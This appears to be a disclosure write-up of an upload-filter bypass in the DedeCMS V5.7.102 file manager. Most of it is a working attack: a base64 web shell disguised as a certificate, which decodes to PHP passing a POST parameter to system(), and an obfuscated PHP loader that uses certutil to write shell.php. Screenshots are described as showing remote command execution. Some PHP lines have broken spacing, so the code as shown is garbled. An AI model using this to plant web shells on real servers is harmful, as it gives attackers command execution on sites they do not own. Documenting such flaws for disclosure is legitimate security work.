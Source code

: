 from https://www.dedecms.com/download Download the latest version of DedeCMS V5.7.102 source code
From the code audit, we can see that in the file_ manage_ The file content is restricted in the control.php code

![image](https://user-images.githubusercontent.com/40231393/204222736-6bc9aa96-aaaf-49fe-b4ae-35306ab75513.png)

Any PHP feature will detect whether you have an execution function. Most methods are filtered. At this time, encryption obfuscation can be constructed to bypass.
First, build a test.txt

-----BEGIN CERTIFICATE-----

PD9waHAgQHN5c3RlbSgkX1BPU1RbJ2NtZCddKTsgPz4=

-----END CERTIFICATE-----


Second, build a test.php

<? php $x='sys';$ xx='tem';$ xxx=$x.$ xx;$ y='certutil -decode test. t';$ yy='xt shell.php';$ yyy=$y.$ yy;$ xxx($yyy) ?>

The upload blocker displays the DedeCMS prompt: There is malicious code in the currently uploaded file! By building the data package, we can find that our content is not intercepted

![image](https://user-images.githubusercontent.com/40231393/204222815-a2c1ba1c-4082-4348-a43b-22192c2e5adb.png)
![image](https://user-images.githubusercontent.com/40231393/204222831-3d66de34-3516-480f-a327-30ccc104dc50.png)

Access the test.php execution code, and you can see that the base64 code we built has been decoded, and the shell.php has been generated

![image](https://user-images.githubusercontent.com/40231393/204222857-1d47a53a-61d5-412b-a32f-05ca32671e78.png)
![image](https://user-images.githubusercontent.com/40231393/204222868-1fda4647-9c1e-4b5b-ae1c-98f151c6c7f5.png)

Access the execution command, and execute the getshell successfully

![image](https://user-images.githubusercontent.com/40231393/204222895-2d8b8f6a-4a50-4443-8159-1bd513ea4cfa.png)
